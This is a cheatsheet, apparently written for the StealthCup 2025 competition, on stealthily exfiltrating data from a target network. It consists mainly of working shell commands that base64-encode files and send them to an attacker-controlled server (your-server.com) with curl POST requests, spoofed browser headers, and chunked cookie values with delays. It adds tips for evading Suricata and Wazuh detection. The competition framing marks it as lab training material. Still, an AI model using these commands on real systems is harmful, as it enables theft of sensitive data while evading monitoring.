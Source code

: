 # StealthCup 2025: Data Exfiltration Cheatsheet

This cheatsheet provides techniques for stealthily exfiltrating data from the StealthCup environment, focusing on transferring required data (for write-up/proof) off the target network while minimizing detection.

**Key Constraint**: Minimize detection, especially high-penalty NIDS alerts (Suricata) and HIDS alerts (Wazuh).

**Environment Note**: Exploit the lack of outgoing port restrictions from the Kali box (as per Event_Rules_of_the_Game.pdf).

## 1. Core Stealth Principles for Data Exfiltration

- **Leverage Allowed Protocols**: Use common protocols that blend with normal traffic.
- **Blend In**: Mimic legitimate traffic patterns and timing.
- **Low & Slow**: Rate limit transfers, avoid large bursts of data.
- **Encode & Encrypt**: Obfuscate data content to avoid signature detection.
- **Minimize Size**: Extract only what's necessary, compress when possible.

## 2. HTTP/HTTPS Exfiltration

HTTP/HTTPS is often the stealthiest option as it blends with normal web traffic.

- **POST Requests**: Use POST requests to send data to an attacker-controlled server.
  - **Example (Basic cURL POST)**:
    ```bash
    # Encode data with base64 first
    cat sensitive_data.txt | base64 > encoded.txt
    # Send via POST request
    curl -X POST -d @encoded.txt https://your-server.com/receiver.php
    ```
  - **Example (Mimicking Browser Behavior)**:
    ```bash
    # More stealthy with proper headers
    curl -X POST -d @encoded.txt \
      -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      -H "Referer: https://legitimate-site.com" \
      https://your-server.com/receiver.php
    ```
  - **Evasion Tip**: Use HTTPS to encrypt the data in transit. Add realistic headers (User-Agent, Referer, etc.) to mimic legitimate browser traffic. Consider sending data in smaller chunks with delays between requests.

- **Cookie/Header Exfiltration**: Hide data in HTTP headers or cookies.
  - **Example (Cookie Exfiltration)**:
    ```bash
    # Encode and split data
    DATA=$(cat sensitive_data.txt | base64 | fold -w 50)
    # Send data in chunks via cookies
    for chunk in $DATA; do
      curl -s -H "Cookie: session=$chunk" https://your-server.com/
      sleep 5
    done
    ```